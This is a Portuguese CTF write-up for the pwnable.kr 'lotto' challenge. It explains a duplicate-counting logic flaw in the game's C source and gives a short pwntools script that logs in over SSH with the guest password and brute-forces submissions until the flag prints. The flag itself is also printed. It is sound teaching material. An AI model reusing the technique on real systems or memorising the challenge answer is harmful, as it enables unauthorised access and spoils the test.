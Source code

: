 # lotto
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Operating logic]

## Sobre o Desafio  

Mamãe! Fiz um programa de loteria para meu dever de casa.
você quer jogar?

ssh lotto@pwnable.kr -p2222 (pw:guest)

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php#)

## Solução

O desafio proposto fornece as seguintes informações: uma pessoa criou um jogo de loteria e concedeu acesso a um servidor SSH. Dentro desse servidor, há três arquivos: `lotto`, `lotto.c` e `flag`.

![image](https://github.com/user-attachments/assets/afd67885-fbed-4b0d-92bf-46c9e5cc03a9)

O arquivo `lotto.c` contém o código-fonte do jogo, responsável pela mecânica da loteria.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

O código acima define a função `play()`, responsável pelo jogo de loteria.

A entrada dos números da loteria é processada por este trecho:

```c
int i;
printf("Submit your 6 lotto bytes : ");
fflush(stdout);
int r;
r = read(0, submit, 6);
```

Aqui, o usuário insere 6 números, armazenados no `array` submit. O comando `read(0, submit, 6)` lê 6 bytes da entrada padrão (`stdin`).

O código gera números aleatórios usando `/dev/urandom`:

```c
int fd = open("/dev/urandom", O_RDONLY);
if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
}
```

Os 6 bytes aleatórios são lidos e armazenados no array `lotto`:

```c
unsigned char lotto[6];
if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
}
```

Os números são então convertidos para valores entre 1 e 45:

```c
for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;
}
```

A vulnerabilidade lógica está na verificação dos números correspondentes. O código conta quantas vezes um número do usuário (submit) aparece no array `lotto`, permitindo contagens repetidas:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

Caso o usuário acerte 6 números (considerando a falha na contagem), o programa exibe o conteúdo do arquivo `flag`:

```c
if(match == 6){
        system("/bin/cat flag");
}
else{
        printf("bad luck...\n");
}
```

Se os números não forem todos reconhecidos, a mensagem `"bad luck..."` é exibida.

Com base nessa falha, é possível aumentar as chances de ganhar. O código a seguir automatiza essa tentativa:

```python
from pwn import *

sh = ssh('lotto', '128.61.240.205', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'------')
    _, ans = p.recvlines(2)
    
    if b"bad" not in ans:
        print(ans.decode())
        break
```

O script Python estabelece uma conexão com o servidor SSH utilizando as credenciais fornecidas e, em seguida, executa o programa `lotto`. Para explorar a vulnerabilidade identificada, ele repete o processo de jogo mil vezes. A cada iteração, o script envia o número `1` para selecionar a opção de jogar e insere a sequência de caracteres `b'------'` como entrada, aproveitando a falha na contagem de números repetidos. Após cada tentativa, a resposta do programa é analisada para verificar se a mensagem `"bad luck"` está presente. Caso essa mensagem não apareça, significa que o exploit funcionou e a `flag` foi obtida, encerrando o loop imediatamente.

![image](https://github.com/user-attachments/assets/dd178db0-a2e6-4e21-9d64-56ed4e3e150f)

> Assim, obtemos a flag `sorry mom... I FORGOT to check duplicate numbers... :(`
